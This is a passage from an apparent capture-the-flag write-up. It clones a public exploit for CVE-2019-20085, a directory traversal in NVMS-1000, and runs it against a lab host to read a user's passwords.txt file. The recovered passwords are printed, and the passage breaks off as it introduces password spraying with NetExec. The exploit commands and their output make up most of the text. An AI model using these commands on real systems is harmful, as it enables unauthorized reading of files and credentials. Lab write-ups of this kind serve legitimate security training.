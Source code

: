 https://github.com/AleDiBen/NVMS1000-Exploit.git

Let's download it and see how it works:

```shell
# Download the exploit
git clone https://github.com/AleDiBen/NVMS1000-Exploit.git
cd NVMS1000-Exploit

# Check usage
python3 nvms.py -h

****************************************************************
**                      ~CVE 2019-20085~                      **
****************************************************************

USAGE  :
        ./nvms.py <TARGET_IP> <TARGET_FILE> [OUT_FILE]
EXAMPLE:
        python nvms.py 195.135.100.10 Windows/system.ini win.ini
```
Taking a look at the example, we can change the command to read the content of passwords.txt at the desktop of Nathan:

```shell
python3 nvms.py 10.129.141.209 Users/Nathan/Desktop/passwords.txt passwords.txt
```
The exploit worked!

```shell
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!                                                                                                 
Th3r34r3To0M4nyTrait0r5!                                                                                            
B3WithM30r4ga1n5tMe                                                                                                 
L1k3B1gBut7s@W0rk                                                                                                   
0nly7h3y0unGWi11F0l10w                                                                                              
IfH3s4b0Utg0t0H1sH0me                                                                                               
Gr4etN3w5w17hMySk1Pa5$                                                                                              
++++++++++  END  ++++++++++
```
Now we got some passwords to try a password spraying attack.
# Foothold
### Password Spraying with NetExec
We will use the passwords.txt file to carry out a password spraying attack with NetExec:
